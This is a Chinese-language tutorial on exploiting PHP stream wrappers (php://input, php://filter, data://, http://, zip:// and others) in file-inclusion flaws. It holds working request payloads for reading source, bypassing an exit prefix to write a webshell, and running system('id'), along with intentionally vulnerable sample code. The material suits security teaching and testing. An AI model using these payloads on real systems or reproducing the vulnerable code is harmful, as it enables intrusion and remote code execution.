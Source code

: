 # 伪协议

## 支持的协议和封装协议

官方文档中可以看到PHP 带有很多内置 URL 风格的封装协议，例如 `php://`，`file://`等等，而其中也存在一些攻击者可以利用的地方  

<a-alert type="success" message="" description="官方文档：https://www.php.net/manual/zh/wrappers.file.php" showIcon>
</a-alert>
<br/>

![image-20220518110413109](../../../.vuepress/public/img/image-20220518110413109.png)

## php://

PHP 提供了一些杂项输入/输出（IO）流，允许访问 PHP 的输入输出流、标准输入输出和错误描述符， 内存中、磁盘备份的临时文件流以及可以操作其他读取写入文件资源的过滤器。

![image-20220525090905760](../../../.vuepress/public/img/image-20220525090905760.png)

![image-20220525091008645](../../../.vuepress/public/img/image-20220525091008645.png)

### php://input

当 allow_url_include 配置在 php.ini 文件中为 `On`时，可以通过使用 `php://input` 在POST数据中传入执行的PHP代码来达到命令执行

![image-20220525091416553](../../../.vuepress/public/img/image-20220525091416553.png)

这里使用文件包含代码来做例子

```php
<?php
include($_GET["file"]);
?>
```

![image-20220525091610668](../../../.vuepress/public/img/image-20220525091610668.png)

### php://filter

当存在文件包含漏洞时，可以使用 `php://filter` 读取 PHP源码

```php
index.php?file=php://filter/read=convert.base64-encode/resource=index.php
```

![image-20220525093334626](../../../.vuepress/public/img/image-20220525093334626.png)

这里使用的过滤器为 `convert.base64-encode`，读取到的响应 `base64` 解码后就是源码文件

![image-20220525093521312](../../../.vuepress/public/img/image-20220525093521312.png)

如果存在WAF或者代码过滤 base64 等字符的情况下，除去这个常用的过滤器，还存在其他的方法来获取数据

```
/index.php?file=php://filter/read=string.rot13/resource=index.php 
```

![image-20220525101142364](../../../.vuepress/public/img/image-20220525101142364.png)

其中还有一个在PHP文档中提到较少的过滤器 `iconv转换过滤器(convert.iconv.*)`，通过命令可以看到可以使用的方法

![image-20220525101342348](../../../.vuepress/public/img/image-20220525101342348.png)

```
/index.php?file=php://filter/read=convert.iconv.ISO_8859-7:2003/resource=index.php
```

![image-20220525101430283](../../../.vuepress/public/img/image-20220525101430283.png)

当部分代码中含有 `死亡 exit`时，使用 `php://filter` 也可以继续绕过，达到写入Webshell的目的，例如下面的PHP代码

```php
<?php
$content = '<?php exit; ?>';
$content .= $_POST['content'];
file_put_contents($_POST['filename'], $content);
?>
```

当我们想写入PHP代码时

![image-20220525110938859](../../../.vuepress/public/img/image-20220525110938859.png)

![image-20220525110947255](../../../.vuepress/public/img/image-20220525110947255.png)

在exit的影响下，写入的PHP代码无法执行，而这时通过 `php://filter` 利用特殊的转换器就可以绕过 exit 写入想要执行的PHP代码

![image-20220525112502432](../../../.vuepress/public/img/image-20220525112502432.png)

如上图，当存在 Base64索引中 不包含的字符中，base64会跳过不识别的字符拼接可识别字符再进行解码，也就是说 `<?php exit; ?>` 传入 base64的实际只有 `phpexit`, 而 base64算法4byte 为一组进行运算，我们通过传入任意一个字母拼接就可以使其解码，再通过 base64的过滤器就可以绕过 `exit`写入 Webshell

```
content=QPD9waHAgcGhwaW5mbygpOz8%2b&filename=php://filter/write=convert.base64-decode/resource=phpinfo.php
```

![image-20220525114107874](../../../.vuepress/public/img/image-20220525114107874.png)

![image-20220525114131702](../../../.vuepress/public/img/image-20220525114131702.png)

也可以利用 `string.strip_tags` 去除整个 `<?php exit; ?>`，来写入

```
content=PD9waHAgcGhwaW5mbygpOz8%2b&filename=php://filter/write=string.strip_tags|convert.base64-decode/resource=phpinfo.php
```

但这个过滤器在 `PHP 7.3.0` 版本废弃了，后续版本使用可能会导致写入失败

![image-20220525114959794](../../../.vuepress/public/img/image-20220525114959794.png)

除去这些常用的，还有很多方法可以使用

```
# rot13过滤器
content=<?cuc cucvasb();?>&filename=php://filter/write=string.rot13/resource=phpinfo.php
```

![image-20220525115422272](../../../.vuepress/public/img/image-20220525115422272.png)

```
#UCS-2 转换
content=?<hp phpipfn(o;)>?&filename=php://filter/write=convert.iconv.UCS-2LE.UCS-2BE/resource=phpinfo.php
```

![image-20220525115617995](../../../.vuepress/public/img/image-20220525115617995.png)

## data://

文件包含源码

```php
<?php
include($_GET["file"]);
?>
```

利用 `data://` 执行 php代码

![image-20220525121021882](../../../.vuepress/public/img/image-20220525121021882.png)

也可以通过编码的方式绕过一些过滤

```php
/index.php?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCdpZCcpOz8%2
```

![image-20220525121519399](../../../.vuepress/public/img/image-20220525121519399.png)

## http://

当配置选项 `allow_url_fopen`与`allow_url_include` 均为On时，通过 `http:// 或 https://` 协议可以远程包含文件或包含本地文件

```
# shell.php
<?php system("id");?>
```

![image-20220525122614858](../../../.vuepress/public/img/image-20220525122614858.png)

## file://

这个协议常常用于读取读取文件，当知道文件路径时，可以通过该协议读取文件获取敏感数据

![image-20220525171226018](../../../.vuepress/public/img/image-20220525171226018.png)

## zip://  &  bzip2://  &  zlib://

`zip:// & bzip2:// & zlib://` 均属于压缩流，可以访问压缩文件中的子文件。当存在压缩包上传的情况时，我们可以通过此协议访问 压缩包中的内部文件

![image-20220525172201302](../../../.vuepress/public/img/image-20220525172201302.png)

上图将 `phpinfo.txt` 打包为 `phpinfo.zip`

```
/index.php?file=zip:///Users/peiqi/Sites/peiqi/phpinfo.zip%23phpinfo.txt 
```

![image-20220525172250386](../../../.vuepress/public/img/image-20220525172250386.png)

压缩包后缀为 `gz`时

```
/index.php?file=compress.zlib:///Users/peiqi/Sites/peiqi/phpinfo.gz 
```

![image-20220525172701926](../../../.vuepress/public/img/image-20220525172701926.png)

压缩包后缀为`bz2`时

```
/index.php?file=compress.bzip2:///Users/peiqi/Sites/peiqi/phpinfo.bz2
```

 ![image-20220525172846066](../../../.vuepress/public/img/image-20220525172846066.png)
